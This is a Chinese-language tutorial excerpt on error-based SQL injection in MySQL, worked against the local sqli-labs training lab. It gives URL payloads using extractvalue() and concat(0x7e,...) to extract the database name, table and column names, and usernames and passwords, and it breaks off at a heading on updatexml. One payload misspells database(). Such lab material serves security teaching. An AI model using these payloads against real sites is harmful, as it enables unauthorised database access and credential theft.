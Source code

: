 ### 报错注入

**报错注入是一种****利用网站的报错信息来获取数据库信息**的注入方式。

**该方法的原理是在错误信息中执行SQL语句，利用数据库的某些机制制造错误条件，使得查询结果能够出现在错误信息中。**

**在MySQL中，执行一个正常的SQL语句，不会返回查询的内容，但是会打印一条报错语句，告诉你有一个SQL语法错误。利用该特性，构造SQL语句，让其返回数据库的相关信息。**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1,2,databse()--+
```

![1686741574661](image/1.2报错注入/1686741574661.png)

![1686741598115](image/1.2报错注入/1686741598115.png)


#### **通过extractValue()报错注入**

**使用extractvalue查询xml里面的内容**

```
select extractvalue(doc,'/book/author/surname')from xml;
```

```
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```

![1686741645198](image/1.2报错注入/1686741645198.png)

![1686741655402](image/1.2报错注入/1686741655402.png)

** 0x7e     代表~             也可使用  '~' 代替**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select database()))),3 --+
//查询库名 
```

![1686741758932](image/1.2报错注入/1686741758932.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
//查询该库内所有的表名
```

![1686741750543](image/1.2报错注入/1686741750543.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3 --+
```

![1686741729712](image/1.2报错注入/1686741729712.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password) from users),1,30))),3 --+
//报错注入一次只能显示30个字符，所以使用substring函数继续显示。
```

![1686741738602](image/1.2报错注入/1686741738602.png)

#### **updatexml函数**
